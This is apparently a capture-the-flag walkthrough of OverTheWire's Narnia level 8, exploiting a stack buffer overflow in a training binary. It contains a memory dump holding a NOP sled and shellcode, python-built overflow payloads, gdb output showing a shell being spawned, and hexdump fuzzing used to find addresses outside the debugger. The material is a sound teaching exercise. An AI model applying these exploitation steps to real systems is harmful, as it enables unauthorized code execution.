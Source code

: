 ```
0xffffd894:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8a4:	0x90909090	0x90909090	0x90909090	0xddda9090
0xffffd8b4:	0xf42474d9	0xf4af75bb	0xc9315a7f	0xc2830bb1
0xffffd8c4:	0x165a3104	0xe2165a03	0x27ffc580	0xb06648f3
0xffffd8d4:	0xa7ef0e2e	0x4f9cff58	0xf24d9798	0x111b09f1
0xffffd8e4:	0xd6133e53	0xb40bbe53	0x4b7cd03a	0xf8d42cd4
---snip---
```
I choose 0xffffd894 as it's somewhere in the middle of the NOP sled and will give us some leeway on either side.
Replacing "ZZZZ" in our buffer with this address gives us a shell in gdb:
```
(gdb) run $(python -c 'print "A" * 20 + "\x61\xd8\xff\xff" + "A"*12 +"\x94\xd8\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia8 $(python -c 'print "A" * 20 + "\x61\xd8\xff\xff" + "A"*12 +"\x94\xd8\xff\xff"')

Breakpoint 1, 0x080484a7 in func ()
(gdb) cont
Continuing.
AAAAAAAAAAAAAAAAAAAAa���AAAAAAAAAAAA����a���
process 651 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "func" in current context.
Error in re-setting breakpoint 1: No symbol "func" in current context.
Error in re-setting breakpoint 1: No symbol "func" in current context.
$ 
```
Now comes the hardest part of this exercise: getting a shell outside of gdb. GDB itself changes the memory addresses, so now we'll need to find `blah`'s address without gdb's aid.

We won't have to do this completely blindly, but will require some manual fuzzing.

`hexdump` will output the hex values of whatever input it's given. We can use this to peek into the stack a little bit.
```
narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x61\xd8\xff\xff" + "B"*12 +"\x94\xd8\xff\xff"') | hexdump
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4161 ffff[1] 0a02 
```
We're currently have 0xffff4161 in the stack. The second byte was overwritten with 41, which means the address we have in our buffer is pointing to somewhere in our buffer of "A"'s.

Moving down the address space (towards higher memory addresses):
```
narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x70\xd8\xff\xff" + "B"*12 +"\x94\xd8\xff\xff"') | hexdump
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4170 ffff 0a02               

narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x71\xd8\xff\xff" + "B"*12 +"\x94\xd8\xff\xff"') | hexdump
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 7171[1] ffff 0a02 
```
That's interesting. We now have 0xffff7171, which means our address is one off. Moving up one more byte should give us the correct address.
```
narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x72\xd8\xff\xff" + "B"*12 +"\x94\xd8\xff\xff"')          
AAAAAAAAAAAAAAAAAAAAr���BBBBBBBBBBBB����r���
Segmentation fault (core dumped)
```

[overthewire]: https://www.overthewire.org